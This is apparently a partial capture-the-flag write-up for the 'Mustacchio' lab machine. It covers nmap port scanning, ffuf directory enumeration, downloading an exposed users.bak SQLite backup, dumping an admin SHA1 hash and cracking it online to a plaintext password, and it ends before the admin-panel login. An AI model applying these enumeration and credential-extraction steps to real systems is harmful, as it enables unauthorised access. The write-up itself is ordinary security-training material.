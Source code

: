 # Mustacchio writeup
## nmap -p- -sV -n 10.10.238.61 -o nmap.txt
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)

step 1. check port 80
step 2. check port 8765
step 3. check port 22

http://10.10.238.61:8765/ - gives login page(admin panel)
## directory enumerate using FFUF on port 80
ffuf -u http://10.10.238.61/FUZZ -w /usr/share/wordlists/dirb/common.txt

http://10.10.238.61/custom/js/ -> found this path
there is a users.bak file
download this file using command wget http://10.10.238.61/custom/js/users.bak
file users.bak  -> helps us determine the file type. In this case it is an SQLite 3.x database, last written using SQLite version 3034001

lets try to open the same using sqlite3

$ sqlite3 users.bak                 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables    -> it list the users table
users
sqlite> SELECT * FROM users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Go to https://crackstation.net/
this is a sha1 hash with value bulldog19

## lets login to port admin panel




